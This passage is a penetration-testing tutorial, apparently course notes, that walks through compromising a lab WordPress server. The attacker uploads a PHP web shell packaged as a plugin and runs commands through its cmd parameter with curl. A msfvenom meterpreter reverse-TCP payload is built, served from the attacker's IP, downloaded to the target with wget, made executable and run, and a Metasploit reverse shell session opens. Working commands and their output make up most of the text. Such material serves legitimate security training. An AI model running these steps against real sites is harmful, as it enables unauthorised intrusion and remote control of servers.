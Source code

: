### Obtaining a Shell

To obtain a shell, we first must package the plugin in a way that WordPress knows how to handle. WordPress expects plugins to be in a zip file. When WordPress receives the zip file, it will extract it into the wp-content/plugins directory on the server. WordPress places the contents of the zip file into a folder that matches the name of the zip file itself. Because of this, we will need to make note of the name of the file in order to be able to access our PHP shell later on.

The creation of a zip file is shown in Listing 25.

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress

kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php 
  adding: plugin-shell.php (deflated 58%)
```

The generated zip file is named plugin-shell.zip and will be placed in the plugin-shell folder within wp-content/plugins on the server.

Now that the plugin package is generated, it's time to upload the shell. First, we need to visit the Plugins page by clicking the _Plugins_ link on the left sidebar.

![[Pasted image 20221210223118.png]]

Next, we install the plugin by clicking _Add New_ at the top left. This will take us to the "Add Plugins" page.

![[Pasted image 20221210223158.png]]

Since we are not downloading a plugin from the WordPress plugin directory, we need to select _Upload Plugin_ at the top left of the page.

![[Pasted image 20221210223247.png]]

This will open up a section where we can select our plugin package. We need to select _Browse_, which will open up a file dialog for us to find the created package.

![[Pasted image 20221210223323.png]]

With the file dialog open, we navigate to the directory containing our plugin, select the plugin-shell.zip file, and click _Open_ at the bottom of the file dialog.

Finally, to install the plugin, we click _Install Now_.

![[Pasted image 20221210223355.png]]

Installing the plugin will upload the zip and extract the contents.

Now that the plugin is installed, we can attempt to use it to run system commands on the WordPress target. For this, we can simply use _cURL_. As discussed earlier, the directory for the plugin is wp-content/plugins/, the zip will be extracted into a directory named plugin-shell, and the file that we are targeting is named plugin-shell.php.

Remember that we must also set a _cmd_ parameter containing the command we are attempting to execute on the target system. Let's attempt to run whoami and see if the shell worked.

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

It worked! Based on the output of Listing 26, we are running commands as the www-data user. Now it's time to upload a meterpreter payload and obtain a full reverse shell.

First let's generate a meterpreter payload with the msfvenom utility.

```
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

We are selecting the Linux reverse TCP meterpreter payload since we know that the target is running on Ubuntu from our previous enumeration efforts. The LHOST option will point to our Kali IP address and we are selecting an LPORT of 443 in an attempt to evade any outbound firewall rules. While it's good practice to always check for any egress filtering, in this case we will make the assumption that port 443 is unrestricted. We are generating the payload as an _elf_ file and redirecting the output to a file named shell.elf in the kali user home directory.

With the meterpreter reverse shell generated, we start a web server to allow the target to download the shell.

```
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```

The webserver in Listing 28 is using the Python _http.server_ module, is instructed to use port 80, and is serving files from the kali user home directory. We chose port 80 again to avoid any potential issues we might run into if there is a firewall blocking arbitrary outbound ports.

With the shell generated and the web server running, we will instruct the target to download the shell. We will use wget from the target to download the shell from our Kali system. However, we must encode any space characters with "%20" since we cannot use spaces in URLs. The command we are running is shown in Listing 29.

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
```

If the command worked, we should see an entry similar to the following in our Python webserver's log.

```
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

Success! Next we need to make the shell executable, start a Metasploit payload handler on Kali, and run the _elf_ file on the target to acquire a meterpreter shell. To make the shell executable, we will run chmod +x on it. Once again, we need to remember to urlencode sensitive characters such as space (%20) and "+" (%2b). The command to make the shell executable is displayed in Listing 31.

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
```

At this point, the shell should be executable. Next, we will start a meterpreter payload listener on the appropriate interface and port.

```
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
>              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
>              set LHOST 10.11.0.4;\
>              set LPORT 443;\
>              run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443 
```

In the msfconsole command above, we are having Metasploit start quietly (-q) and immediately configure the payload handler via the -x option, passing the same payload settings we used when generating the shell.

With our listener running, it's finally time to obtain a reverse shell. This can be done by executing the shell.elf file via the malicious WordPress plugin we installed previously.

```
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
```

Returning to our listener, we should see that we have captured a shell.

```
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41

meterpreter > shell
Process 9629 created.
Channel 1 created.

whoami
www-data

exit
meterpreter > 
```

Now that we have a shell on the WordPress machine, we will move on to post-exploitation enumeration.